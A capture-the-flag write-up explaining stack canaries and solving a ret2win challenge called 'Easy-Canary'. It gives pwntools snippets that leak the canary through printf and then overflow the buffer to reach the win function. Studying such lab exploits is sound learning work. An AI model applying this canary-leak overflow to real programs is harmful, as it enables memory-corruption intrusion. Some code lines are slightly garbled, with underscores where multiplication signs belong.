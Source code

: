 #Easy-Canary

This challenge consisted of a ret2win, with stack canaries implemented.

##Prerequisites:
Know how buffer overflows work.

##What are stack canaries?
The term comes from the historical use of canaries in coal mines. Since canaries are more vulnerable to toxic gases than humans are, coal miners would bring canary birds with them. When the canary died, they would know that they would also died soon and could safely evacuate the mine.
Stack canaries are "secret" values placed on the stack just before the return address. Attackers usually have the goal of changing the return address with a BOF (buffer overflow), but to do that, the canary must be overwritten as well.
So compilers insert code to the following:

1.Place a random canary value (at program startup) on the stack.
2.Check the canary before returning from a function.
3.If the canary is corrupted, terminate the program (usually with via \_\_stack_chk_fail()).

For more information, check out this article: https://ctf101.org/binary-exploitation/stack-canaries/

##What was the vulnerability?
In easy-canary there is a buffer-overflow opportunity to buf. The buf has a size of 40 bytes, but we can insert 256 bytes. This leads us to try to overwrite the return address with a simple BOF. However, since the canary is present, a simple BOF won't work, the program will just crash, because the canary value won't stay the same.

###Just a bit more theory.
Before we dive into the exploit we need to understand how the printf() works in C.
Imagine we have a sentence like this:
"Hey we are Capitão Sapinhas and we are a ctf team we love to do ctfs"
What's missing here? Punctuation! If we asked someone to read the first sentence they would not know that it stops at "ctf team" because there is no period.
The way that printf() works is exactly the same. For printf() to know when to stop printing stuff it needs to have a "period", in this case a null byte "\x00". Strings are null terminated (ex: "car\x00"), so functions like printf() know where to stop printing data and not reveal any sensitive information.

Now that we have that out of the way we can understand the exploit.

First part:
```
io.sendlineafter(b'> ', b'1')
payload = \x00 \* 40 + b"x"
io.send(payload)
```

In this snippet all we do is fill the buffer with 40 null bytes, and one "x".
Visually speaking
Before the attack:
[buffer(40 bytes)][canary(eg:"\x00\xFF\xFF\xFF\xFF\xFF\xFF\xFF)][returnaddress]
After the attack:
[buffer(filled)][canary(eg:"x\xFF\xFF\xFF\xFF\xFF\xFF\xFF)][returnaddress]

The printf function, instead of stopping printing at the canary, since there is no null byte, it will actually print the canary!
```
io.sendlineafter(b'> ', b'2')
io.recvuntil(payload)
canary = u64(b'\0' + io.recv(7))
log.info(f'{canary = :#0x}')
```
We print the actual canary with the "Printf your name" function. We have the canary!! Now all we have to do is a buffer overflow but replacing the canary with the value we know so that the program won't crash.
```
win = elf.symbols["win"]
print(hex(win))

payload2 = b"a" _ 40 + p64(canary) + b"b" _ 8 + p64(win+4)
print(payload2)

io.sendline(b"1")
io.recv()
io.sendline(payload2)
io.recv()
io.sendline(b"3")
io.interactive()
```

payload2 is filling the buffer, inserting the canary and changing the return address to the win function.
When we exit, the program will return to the win function.
